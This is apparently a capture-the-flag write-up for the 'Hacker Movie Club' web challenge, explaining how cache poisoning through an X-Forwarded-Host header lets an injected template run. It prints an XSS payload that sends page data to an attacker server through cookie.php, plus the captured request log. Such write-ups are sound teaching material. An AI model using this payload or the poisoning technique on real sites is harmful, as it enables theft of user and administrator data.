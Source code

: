 ## Hacker Movie Club  
Author: itszn @ ret2sys  

### Description  
Hacker movies are very popular, so we needed a site that we can scale. You better get started though, there are a lot of movies to watch.  

### Solution  
by taking a look at index page, we notice `cdn.js` script:  

```javascript
for (let t of document.head.children) {
    if (t.tagName !== 'SCRIPT')
        continue;
    let { cdn, src } = t.dataset;
    if (cdn === undefined || src === undefined)
        continue;
    fetch(`//${cdn}/cdn/${src}`,{
        headers: {
            'X-Forwarded-Host':cdn
        }}
    ).then(r=>r.blob()).then(b=> {
        let u = URL.createObjectURL(b);
        let s = document.createElement('script');
        s.src = u;
        document.head.appendChild(s);
    });
}
```  

basically if `X-Forwarded-Host` header has been added in the request, it will fetch cdn domain from address has been provided in the header.  

There're two scripts appended to page:  

```
<script data-src="mustache.min.js" data-cdn="d00e59b0157127fc05d6cbfb3db0f8932731d95c.hm.vulnerable.services"></script>
<script data-src="app.js" data-cdn="d00e59b0157127fc05d6cbfb3db0f8932731d95c.hm.vulnerable.services"></script>
```  

app.js path is located at: `/{{domain}}/cdn/app.js` which domain is a hash generated the first time you connect to server which acts as a sandbox. code for that is here:  

```javascript
var token = null;

Promise.all([
    fetch('/api/movies').then(r=>r.json()),
    fetch(`//e6e918d1bcaf8d4340fd357948c5195cb2dad077.hm.vulnerable.services/cdn/main.mst`).then(r=>r.text()),
    new Promise((resolve) => {
        if (window.loaded_recapcha === true)
            return resolve();
        window.loaded_recapcha = resolve;
    }),
    new Promise((resolve) => {
        if (window.loaded_mustache === true)
            return resolve();
        window.loaded_mustache = resolve;
    })
]).then(([user, view])=>{
    document.getElementById('content').innerHTML = Mustache.render(view,user);

    grecaptcha.render(document.getElementById("captcha"), {
        sitekey: '6Lc8ymwUAAAAAM7eBFxU1EBMjzrfC5By7HUYUud5',
        theme: 'dark',
        callback: t=> {
            token = t;
            document.getElementById('report').disabled = false;
        }
    });
    let hidden = true;
    document.getElementById('report').onclick = () => {
        if (hidden) {
          document.getElementById("captcha").parentElement.style.display='block';
          document.getElementById('report').disabled = true;
          hidden = false;
          return;
        }
        fetch('/api/report',{
            method: 'POST',
            body: JSON.stringify({token:token})
        }).then(r=>r.json()).then(j=>{
            if (j.success) {
                // The admin is on her way to check the page
                alert("Neo... nobody has ever done this before.");
                alert("That's why it's going to work.");
            } else {
                alert("Dodge this.");
            }
        });
    }
});
```  

since server uses varnish for caching, cache key in basic config is only URI. So we need to wait for cache `Max-age` response header to timeout, then if we send request with `X-Forwarded-Host` set our server ip address, we can poison this cache.  

to make things automatic, I wrote a script in python to send requests to `/cdn/app.js` during some time intervals `120-{{age}}`. As we can see, the only field of `app.js` which is under control by that header is the part fetching a mustachejs `main.mst` template.  

Next step is to load the contents of `/api/movies` and grabbing the one with `admin_only` set to True and grabbing name of that movie which gonna be our flag cuz its value is `"[REDACTED]"` for us.  

so I appended this code at the end of `name.mst` file:  

```html
<img src=x onerror="var xhr=new XMLHttpRequest(); xhr.open('GET', 'http://{{server_ip}}/cookie.php?c='+ btoa(document.getElementsByClassName('movies')[0].rows[16].cells[0].innerHTML), false); xhr.send();">
```  

and wait until admin checkout our page and see result in logs:  

```
216.165.2.32 - - [17/Sep/2018:17:28:27 -0700] "GET /cookie.php?c=ZmxhZ3tJX2gwcGVfeW91X3c0dGNoM2RfYTExX3RoM19tMHYxZXN9 HTTP/1.1" 200 429 "http://d00e59b0157127fc05d6cbfb3db0f8932731d95c.hm.vulnerable.services/admin/view/d00e59b0157127fc05d6cbfb3db0f8932731d95c" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36"
```  

Flag is in base64 which after decoding we gonna have it:  

```python
In [15]: base64.b64decode('ZmxhZ3tJX2gwcGVfeW91X3c0dGNoM2RfYTExX3RoM19tMHYxZXN9')
Out[15]: 'flag{I_h0pe_you_w4tch3d_a11_th3_m0v1es}'
```  

## server config  
you also need to enable CORS headers on your Apache configuration. So any XHR or fetch request from other hosts to your host destination will be allowed by browser.  

```xml
<Directory /var/www>
    Header set Access-Control-Allow-Origin "https://s.codepen.io"
</Directory>
```  

Sincerely,  
Mohsen (@pwnslinger) from @shellphish  
